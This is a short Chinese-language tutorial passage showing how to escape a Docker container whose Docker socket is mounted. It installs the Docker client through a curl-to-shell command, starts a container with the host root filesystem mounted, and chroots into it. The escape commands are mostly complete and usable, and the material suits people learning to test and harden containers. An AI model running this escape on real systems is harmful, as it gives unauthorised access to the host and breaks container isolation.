 ![](assets/1703484795-ca6de7ac8bf40f37162591bb6ed4bbcf.png)

如何逃逸?

我们可以在容器内部创建一个新的容器，因为Docker Socket被挂载到了当前容器,所有我们可以将宿主机目录挂载到新的容器内部

**即在容器内创建一个挂载了宿主机根目录的容器,然后将目录切换到根目录即可完成逃逸**

我们在当前容器内部安装docker命令行

```php
docker exec -it docker_sock /bin/bash
apt-get update
apt-get install curl
curl -fsSL https://get.docker.com/ | sh
```

接下来的逃逸就十分简单了,我们只需要在容器内部启动一个挂载宿主机根目录的容器即可

```php
docker run -it -v /:/ning ubuntu /bin/bash
```

可以看到我们的id值发生变化,说明我们已经进入了一个新的容器内部

![](assets/1703484795-df1521dd3c3e5ad69a4484c9ddf2b986.png)

这里我们切换根目录

```php
chroot /ning
```

![](assets/1703484795-6bca1011c68491580a2d72409ba39c27.png)
